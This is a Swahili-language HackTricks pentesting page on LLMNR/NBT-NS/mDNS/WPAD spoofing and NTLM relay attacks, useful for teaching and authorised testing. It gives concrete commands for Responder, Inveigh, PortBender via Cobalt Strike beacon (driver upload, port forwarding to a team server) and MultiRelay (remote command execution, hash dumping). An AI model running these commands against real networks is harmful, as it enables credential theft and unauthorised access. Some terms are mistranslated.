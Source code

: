 # Kudanganya LLMNR, NBT-NS, mDNS/DNS na WPAD na Mashambulizi ya Kurelayi

{% hint style="success" %}
Jifunze & zoezi la AWS Kudukua:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & zoezi la GCP Kudukua: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Itifaki za Mtandao

### Itifaki za Azimio la Mwenyeji wa Mitaani
- **LLMNR, NBT-NS, na mDNS**:
- Microsoft na mifumo mingine hutumia LLMNR na NBT-NS kwa azimio la majina ya mitaa wakati DNS inashindwa. Vivyo hivyo, mifumo ya Apple na Linux hutumia mDNS.
- Itifaki hizi zinaweza kudukuliwa na kudanganywa kutokana na asili yao ya kutangazwa bila uthibitisho kupitia UDP.
- [Responder](https://github.com/lgandx/Responder) inaweza kutumika kujifanya kuwa huduma kwa kutuma majibu bandia kwa mifumo inayouliza itifaki hizi.
- Taarifa zaidi kuhusu kujifanya kuwa huduma kwa kutumia Responder inaweza kupatikana [hapa](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Itifaki ya Ugunduzi wa Kiotomatiki wa Wavuti (WPAD)
- WPAD inaruhusu vivinjari kugundua mipangilio ya proksi kiotomatiki.
- Ugunduzi unafanikishwa kupitia DHCP, DNS, au kurudi kwa LLMNR na NBT-NS ikiwa DNS inashindwa.
- Responder inaweza kusaidia mashambulizi ya WPAD, kuongoza wateja kwenye seva za WPAD zenye nia mbaya.

### Responder kwa Sumu ya Itifaki
- **Responder** ni chombo kinachotumika kwa sumu ya maswali ya LLMNR, NBT-NS, na mDNS, kujibu kwa hiari kulingana na aina za maswali, kwa kuzingatia huduma za SMB kwa kiasi kikubwa.
- Kinakuja kikiwa kimewekwa tayari kwenye Kali Linux, kinaweza kubadilishwa kwa `/etc/responder/Responder.conf`.
- Responder inaonyesha vibonyezo vilivyochukuliwa kwenye skrini na kuvihifadhi kwenye saraka ya `/usr/share/responder/logs`.
- Inasaidia IPv4 na IPv6.
- Toleo la Windows la Responder linapatikana [hapa](https://github.com/lgandx/Responder-Windows).

#### Kuendesha Responder
- Kuanzisha Responder na mipangilio ya msingi: `responder -I <Interface>`
- Kwa uchunguzi wenye msukumo zaidi (ukiwa na athari za upande): `responder -I <Interface> -P -r -v`
- Mbinu za kukamata changamoto/majibu ya NTLMv1 kwa urahisi zaidi: `responder -I <Interface> --lm --disable-ess`
- Udanganyifu wa WPAD unaweza kuamilishwa kwa: `responder -I <Interface> --wpad`
- Maombi ya NetBIOS yanaweza kutatuliwa kwa anwani ya IP ya mshambuliaji, na proksi ya uthibitishaji inaweza kuwekwa: `responder.py -I <interface> -Pv`

### Sumu ya DHCP na Responder
- Kudanganya majibu ya DHCP kunaweza kudhuru kudumu maelekezo ya mwendeshaji wa mwathiriwa, kutoa mbadala wa kimya kwa sumu ya ARP.
- Inahitaji maarifa sahihi ya usanidi wa mtandao wa lengo.
- Kuendesha shambulio: `./Responder.py -I eth0 -Pdv`
- Mbinu hii inaweza kukamata vibonyezo vya NTLMv1/2 kwa ufanisi, lakini inahitaji kushughulikiwa kwa uangalifu ili kuepuka kuvuruga mtandao.

### Kukamata Vibonyezo na Responder
- Responder itajifanya kuwa huduma kwa kutumia itifaki zilizotajwa hapo juu, kukamata vibonyezo (kawaida NTLMv2 Challenge/Response) wakati mtumiaji anajaribu kuthibitisha dhidi ya huduma zilizodanganywa.
- Jaribio linaweza kufanywa la kudhoofisha hadi NetNTLMv1 au kulemaza ESS kwa urahisi zaidi wa kuvunja vibonyezo.

Ni muhimu kuzingatia kwamba kutumia mbinu hizi inapaswa kufanywa kihalali na kimaadili, kuhakikisha idhini sahihi na kuepuka kuvuruga au kupata ufikiaji usioruhusiwa.

## Inveigh

Inveigh ni chombo kwa wataalamu wa upenyezi na timu nyekundu, kilichoundwa kwa mifumo ya Windows. Kinatoa utendaji kama wa Responder, kutekeleza kudanganya na mashambulizi ya kati. Chombo hicho kimebadilika kutoka kwa script ya PowerShell hadi binary ya C#, na [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) na [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kama toleo kuu. Maelezo ya kina ya vigezo na maagizo yanaweza kupatikana kwenye [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh inaweza kutumika kupitia PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Au kutekelezwa kama faili ya C#:
```bash
Inveigh.exe
```
### Shambulizi la Kurejesha NTLM

Shambulizi hili linatumia vikao vya uthibitishaji wa SMB kufikia mashine ya lengo, ikitoa kabati ya mfumo ikiwa ni mafanikio. Vigezo muhimu ni pamoja na:
- Mtumiaji anayethibitisha lazima awe na ufikiaji wa Msimamizi wa Ndani kwenye mwenyeji uliopokea.
- Kusainiwa kwa SMB inapaswa kuwa imelemazwa.

#### Kusukuma Bandari 445 na Kutunelisha

Katika hali ambapo uanzishaji wa moja kwa moja wa mtandao hauwezekani, trafiki kwenye bandari 445 inahitaji kusukumwa na kutunelishwa. Zana kama [**PortBender**](https://github.com/praetorian-inc/PortBender) husaidia katika kuelekeza trafiki ya bandari 445 kwenda bandari nyingine, ambayo ni muhimu wakati ufikiaji wa msimamizi wa ndani unapatikana kwa kupakia dereva.

Usanidi na uendeshaji wa PortBender katika Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Vifaa Vingine kwa Shambulio la NTLM Relay

- **Metasploit**: Weka kwa mawakala, maelezo ya mwenyeji wa ndani na wa mbali.
- **smbrelayx**: Skripti ya Python kwa kurejesha vikao vya SMB na kutekeleza amri au kuweka mlango wa nyuma.
- **MultiRelay**: Zana kutoka kwa seti ya Responder kwa kurejesha watumiaji maalum au wote, kutekeleza amri, au kudondosha hashi.

Kila chombo kinaweza kusanidiwa kufanya kazi kupitia mwendeshaji wa SOCKS ikiwa ni lazima, kuruhusu mashambulizi hata na ufikiaji wa mtandao usio wa moja kwa moja.

### Uendeshaji wa MultiRelay

MultiRelay inatekelezwa kutoka kwenye _**/usr/share/responder/tools**_ directory, ikilenga IPs au watumiaji maalum.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Kulazimisha Kuingia kwa NTLM

Katika Windows **unaweza kuwalazimisha baadhi ya akaunti zenye mamlaka kuingia kwa mashine za kupendelea**. Soma ukurasa ufuatao kujifunza jinsi:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Marejeo
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au **kikundi cha** [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
